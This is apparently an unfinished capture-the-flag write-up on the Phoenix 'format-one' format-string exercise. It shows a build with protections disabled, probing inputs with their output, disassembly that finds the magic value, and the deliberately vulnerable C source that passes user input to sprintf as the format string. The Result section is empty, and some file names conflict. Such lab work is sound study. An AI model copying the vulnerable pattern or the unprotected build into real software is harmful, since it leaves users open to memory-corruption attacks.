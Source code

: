 # Phoenix format-zero
https://exploit.education/phoenix/format-one/
### Result

### Setup
Same as `format-one` but I wanted `ASLR off`:

```
docker run -idt --name ctf --privileged --security-opt seccomp:unconfined duckll/ctf-box
docker container exec -it ctf bash
```

### Compile code
This is another `sprintf` challenge. Almost identical to the last but you have to modify the payload.

```
gcc -g -fno-stack-protector -z execstack -no-pie -o format_zero format_zero.c

format_one.c:34:24: warning: format not a string literal and no format arguments [-Wformat-security]
   sprintf(locals.dest, buffer);
```

### Payloads
##### No payload
```
root@bd0657a17d54:~# ./format_one
Welcome to format_one brought to you by https://exploit.education
AAAA
Uh oh, 'changeme' is not the magic value, it is 0x00000000
```
##### No payload
```
gef➤  r
Starting program: /root/format_one
Welcome to format_one brought to you by https://exploit.education
%p %p %p %p
Uh oh, 'changeme' is not the magic value, it is 0x36783020
```

##### Reversing
Finding the magic value:
```
# objdump -d format_one | grep cmp
  4005e6:	48 3d 58 10 60 00    	cmp    $0x601058,%rax
  400650:	80 3d 11 0a 20 00 00 	cmpb   $0x0,0x200a11(%rip)        # 601068 <completed.7697>
  4006fb:	3d 6c 4f 76 45       	cmp    $0x45764f6c,%eax
  400781:	48 39 dd             	cmp    %rbx,%rbp
```
That wasn't great as it included non-main code. What about:
```
# gdb -batch -ex 'file format_one' -ex 'disassemble main' | grep -i cmp
0x00000000004006fb <+116>:	cmp    eax,0x45764f6c
```
Checking how to construct the bytes:
```
# rabin2 -I format_one
arch     x86
baddr    0x400000
binsz    9152
bintype  elf
bits     64
canary   false
endian   little     <- endian order
```

##### Source code
```
 /*
 * Can you change the "changeme" variable?
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to format_one brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0x45764f6c) {
    printf("Uh oh, 'changeme' is not the magic value, it is 0x%08x\n",
        locals.changeme);
  } else {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  }

  exit(0);
}
```

